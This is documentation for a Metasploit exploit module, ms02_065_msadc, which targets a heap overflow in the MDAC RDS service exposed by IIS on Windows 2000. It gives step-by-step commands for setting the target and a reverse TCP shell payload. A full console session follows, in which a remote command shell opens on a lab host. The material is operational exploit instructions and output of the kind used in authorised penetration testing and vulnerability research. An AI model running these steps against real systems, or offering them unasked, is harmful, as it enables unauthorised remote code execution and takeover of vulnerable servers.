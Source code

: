 ## Vulnerable Application

This module can be used to execute arbitrary code on IIS servers
that expose the /msadc/msadcs.dll Microsoft Data Access Components
(MDAC) Remote Data Service (RDS) DataFactory service. The service is
exploitable even when RDS is configured to deny remote connections
(handsafe.reg). The service is vulnerable to a heap overflow where
the RDS DataStub 'Content-Type' string is overly long. Microsoft Data
Access Components (MDAC) 2.1 through 2.6 are known to be vulnerable.

This module has been tested successfully on:

* Windows 2000 Pro SP0-SP3 (English)
* Windows 2000 Pro SP0 (Korean)
* Windows 2000 Pro SP0 (Dutch)
* Windows 2000 Pro SP0 (Finnish)
* Windows 2000 Pro SP0 (Turkish)
* Windows 2000 Pro SP0-SP1 (Greek)
* Windows 2000 Pro SP1 (Arabic)
* Windows 2000 Pro SP1 (Czech)
* Windows 2000 Pro SP2 (French)
* Windows 2000 Pro SP2 (Portuguese)

## Verification Steps

1. `use exploit/windows/iis/ms02_065_msadc`
1. `set RHOSTS [IP]`
1. `show targets` to see the possible targets
1. `set TARGET [TARGET]`
1. `set PAYLOAD windows/shell/reverse_tcp`
1. `set LHOST [IP]`
1. `run`

## Options

### TARGETURI

The path to `msadcs.dll` (Default: `/msadc/msadcs.dll`)

## Scenarios

### Windows 2000 Professional SP3 (EN)

```
msf6 > use exploit/windows/iis/ms02_065_msadc
[*] Using configured payload windows/shell/reverse_tcp
msf6 exploit(windows/iis/ms02_065_msadc) > set rhosts 192.168.200.186
rhosts => 192.168.200.186
msf6 exploit(windows/iis/ms02_065_msadc) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows 2000 Pro SP0-SP3 (English)
   1   Windows 2000 Pro SP0 (Korean)
   2   Windows 2000 Pro SP0 (Dutch)
   3   Windows 2000 Pro SP0 (Finnish)
   4   Windows 2000 Pro SP0 (Turkish)
   5   Windows 2000 Pro SP0-SP1 (Greek)
   6   Windows 2000 Pro SP1 (Arabic)
   7   Windows 2000 Pro SP1 (Czech)
   8   Windows 2000 Pro SP2 (French)
   9   Windows 2000 Pro SP2 (Portuguese)


msf6 exploit(windows/iis/ms02_065_msadc) > set target 0
target => 0
msf6 exploit(windows/iis/ms02_065_msadc) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf6 exploit(windows/iis/ms02_065_msadc) > check
[*] 192.168.200.186:80 - The service is running, but could not be validated. /msadc/msadcs.dll content type matches fingerprint application/x-varg
msf6 exploit(windows/iis/ms02_065_msadc) > run

[*] Started reverse TCP handler on 192.168.200.130:4444
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.200.186
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.186:1028) at 2022-07-07 10:13:35 -0400


Shell Banner:
Microsoft Windows 2000 [Version 5.00.2195]
-----


C:\WINNT\system32>ver
ver

Microsoft Windows 2000 [Version 5.00.2195]
```
